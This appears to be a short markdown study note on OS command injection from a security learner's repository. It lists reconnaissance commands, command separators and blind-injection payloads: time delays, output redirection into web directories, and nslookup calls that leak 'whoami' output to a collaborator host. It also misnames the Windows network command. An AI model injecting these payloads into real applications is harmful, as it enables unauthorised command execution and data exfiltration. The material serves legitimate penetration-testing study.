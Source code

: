 # Resources
- [Command Injection Playlist - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISIP3vpjzVdNltKKUr27Nwtw)
- Michael Sommer videos
# What is it?
Execute commands of the server
# Reconnaissance - Where to look for it
- In request parameters
- User provided input
# Commands - Linux
- whoami = Name current user
- uname -a = Operating system
- ifconfig = Network configuration
- netstat -an = Network connections
- ps -ef = Running processes
# Commands - Windows
- whoami = Name current user
- ver = Operating system
- ifconfig /all = Network configuration
- netstat -an = Network connections
- tasklist = Running processes
# Where to look for them?
In request parameters
User provided input
# Command separators
There are wordlists to find multiple command separators
Windows and Unix-based systems
```
&
&&
|
||
```
Unix-based systems
```
;
0x0a - newline  
\n - newline 
`inject command`
$(inject command)
```
Comment Character
```
#
& whoami #
```
# Blind OS command injection vulnerabilities
The output of the command is not returned within the HTTP response of the application
The command might have to be URL encoded
- Detection via time delays: 
```bash
& ping -c 10 127.0.0.1 &
& sleep 10 #
```
- Redirecting the output
```bash
& whoami > /var/www/static/whoami.txt &
& whoami > /var/www/static/whoami.txt #
||whoami>/var/www/images/whoami.txt||
```
- Out-of-band techniques
```bash
& nslookup burp-collaborator &
& nslookup `whoami`.burp-collaborator #
|| nslookup `whoami`.burp-collaborator ||
```
